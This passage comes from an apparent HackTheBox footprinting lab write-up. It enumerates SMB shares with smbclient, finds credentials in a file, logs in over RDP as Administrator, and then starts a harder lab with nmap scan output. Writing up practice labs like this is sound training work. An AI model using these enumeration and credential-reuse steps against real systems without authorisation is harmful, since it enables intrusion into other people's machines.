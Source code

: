     ```
    We got new credential, alex:lol123!mD. Using that credential, we tried to enumerate the SMB.

    ```bash
    smbclient -L //10.129.196.58 -U alex
    ```
    ![alt text](image.png)

    Then we tried to explore Users.

    ```bash
    smbclient //10.129.196.58/Users -U alex
    ```

    In the \alex\devshare\ folder, we can find interesting file (important.txt). We got new credential from there (sa:87N1ns@slls83). After that, we can login using this commands with that credential.

    ```bash
    xfreerdp /v:10.129.196.58 /u:Administrator /p:'87N1ns@slls83'
    ```
    In there we can find HTB user with its password.

# Footprinting Lab - Hard
## Challenges

1. Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.

    First we enumerate using standard nmap option. 
    ```bash
    nmap -sV -sC 10.129.7.30 -v
    ```

    Here the output.
    ```bash
    PORT      STATE    SERVICE       VERSION
    22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
    |   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
    |_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
    110/tcp   open     pop3          Dovecot pop3d
    | ssl-cert: Subject: commonName=NIXHARD
    | Subject Alternative Name: DNS:NIXHARD
    | Issuer: commonName=NIXHARD
    | Public Key type: rsa